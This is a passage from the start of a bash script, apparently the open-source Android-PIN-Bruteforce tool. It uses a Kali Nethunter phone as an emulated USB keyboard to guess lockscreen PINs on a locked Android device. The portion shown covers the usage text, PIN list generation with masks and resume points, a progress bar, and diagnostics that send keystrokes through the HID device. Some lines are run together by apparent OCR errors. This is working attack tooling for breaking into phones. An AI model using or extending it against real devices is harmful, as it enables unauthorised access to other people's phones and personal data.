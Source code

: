 #!/bin/bash
# Android-PIN-Bruteforce
# 
# Unlock an Android phone (or device) by bruteforcing the lockscreen PIN.
# 
# Turn your Kali Nethunter phone into a bruteforce PIN cracker for Android devices!
# This uses the USB OTG cable to emulate a keyboard, automatically try PINs, and wait after trying too many wrong guesses.
#
# https://github.com/urbanadventurer/Android-PIN-Bruteforce

# Load Default Configuration
source config.default
# Load Configuration
source config

VERSION=0.1

DIRECTION=1 # go forwards
VERBOSE=0
DRY_RUN=0
#RET=0

LIGHT_GREEN="\033[92m"
LIGHT_YELLOW="\033[93m"
LIGHT_RED="\033[91m"
LIGHT_BLUE="\033[94m"
DEFAULT="\033[39m"
CLEAR_LINE="\033[1K"
MOVE_CURSOR_LEFT="\033[80D"

function usage() {
  echo -e "
Android-PIN-Bruteforce ($VERSION) is used to unlock an Android phone (or device) by bruteforcing the lockscreen PIN.
  Find more information at: https://github.com/urbanadventurer/Android-PIN-Bruteforce

Commands:crack\t\t\tBegin cracking PINs
  resume\t\tResume from a chosen PIN
  rewind\t\tCrack PINs in reverse from a chosen PIN
  diag\t\t\tDisplay diagnostic information
  version\t\tDisplay version information and exit

Options:
  -f, --from PIN\tResume from this PIN
  -a, --attempts NUM\tStarting from NUM incorrect attempts
  -m, --mask REGEX\tUse a mask for known digits in the PIN
  -t, --type TYPE\tSelect PIN or PATTERN cracking
  -l, --length NUM\tCrack PINs of NUM length
  -c, --config FILE\tSpecify configuration file to load
  -p, --pinlist FILE\tSpecify a custom PIN list
  -d, --dry-run\t\tDry run for testing. Doesn't send any keys.
  -v, --verbose\t\tOutput verbose logs

Usage:
  android-pin-bruteforce <command> [options]"

}


function load_pinlist() {
  length=$1

  top_number=$((10**$length-1))

  # was a PIN_LIST selected by the user?
  if [ -f "$PIN_LIST" ]; then
    log_info "Loading user specified PIN list $PIN_LIST for $length digits"
    # TODO: this doesn't valdiate the PIN_LIST 
    pinlist=(`cat $PIN_LIST`)
  else
    # Check if an optimised list exists
    if [ -f "optimised-pin-length-$length.txt" ]; then
      PIN_LIST="optimised-pin-length-$length.txt"
      log_info "Loading optimised PIN list for $length digits ($PIN_LIST)"
      pinlist=(`cat $PIN_LIST`)
    else
      # generate the list
      log_info "Generating PIN list for $length digits"
      pinlist=(`seq -w 0 $top_number`)
    fi
  fi
  log_info "PIN list contains ${#pinlist[@]} PINs"
    

  if [ -n "$MASK" ]; then
    pinlist=(`echo "${pinlist[@]}" | tr ' ' '\n' | egrep "$MASK" | tr '\n' ' '`)
  fi

  # validate mask returned PINs
  if [ ${#pinlist[@]} -eq 0 ]; then
    log_fail "MASK $MASK created an invalid PIN list with zero PINs"
    abort
  fi

  resume_from_index=0
  if [ -n "$RESUME_FROM_PIN" ]; then
 #   log_debug "Looking for $RESUME_FROM_PIN in pinlist"
    for i in "${!pinlist[@]}"; do
       if [[ "${pinlist[$i]}" = "${RESUME_FROM_PIN}" ]]; then
  #         log_debug  "Found ${RESUME_FROM_PIN} at element ${i}"
          resume_from_index=$i
       fi
    done
  fi
}

function repeat(){
  printf "%0.s$1" $(eval echo {1..$2})
}

# progress bar
# https://unix.stackexchange.com/questions/415421/linux-how-to-create-simple-progress-bar-in-bash
function prog() {tput cup 0 0
    local w=80 p=$1
    shift
    # create a string of spaces, then change them to dots
    printf -v dots "%*s" "$(( $p*$w/100 ))" ""
    dots=${dots// /x}
    # print those dots on a fixed-width space plus the percentage etc. 
    printf "\r\e[K|%-*s| %3d %% %s" "$w" "$dots" "$p" "$*"
}


function diagnostic_info() {
  log_info "# Diagnostic info"

  if [ -e $KEYBOARD_DEVICE ]; then
    log_pass "HID device ($KEYBOARD_DEVICE) found"
    ls -l $KEYBOARD_DEVICE
  else
    log_fail "HID device ($KEYBOARD_DEVICE) not found"
  fi

  if [ -f $HID_KEYBOARD ]; then
    log_pass "hid-keyboard executable ($HID_KEYBOARD) found" 
    ls -l $HID_KEYBOARD
  else
    log_fail "hid-keyboard executable ($HID_KEYBOARD) not found"  
  fi

  if [ -f $USB_DEVICES ]; then
    log_pass "usb-devices executable ($USB_DEVICES) found" 
    ls -l $USB_DEVICES
  else
    log_fail "usb-devices executable ($USB_DEVICES) not found"  
  fi

  log_info "## Executing Command: $USB_DEVICES"
  $USB_DEVICES
  RET=$?
  if [ $RET -eq 0 ]; then
    log_pass "usb-devices script executed succeessfully."
  else
    log_fail "usb-devices script failed. Return code $RET."
  fi

  log_info "## Finding Android Phone USB Device"
  devices=$($USB_DEVICES | egrep -C 5 "Manufacturer=[^L][^i][^n][^u][^x]" \
 | egrep "Vendor|Manufacturer|Product|SerialNumber" | cut -c 5- )
  
  if [ -n "$devices" ]; then
    log_fail "Unexpected result, device identified: $devices. Check your USB cables. The OTG cable should be attached to the locked phone."
  else
    log_info "Expected result, no device found."
  fi

  log_info "## Sending Enter Key"
  echo enter | $HID_KEYBOARD $KEYBOARD_DEVICE keyboard
  RET=$?

  if [ $RET -eq 0 ]; thenlog_pass "Key was sent succeessfully."
  else
    log_fail "Key failed to send. Return code $RET."
  fi
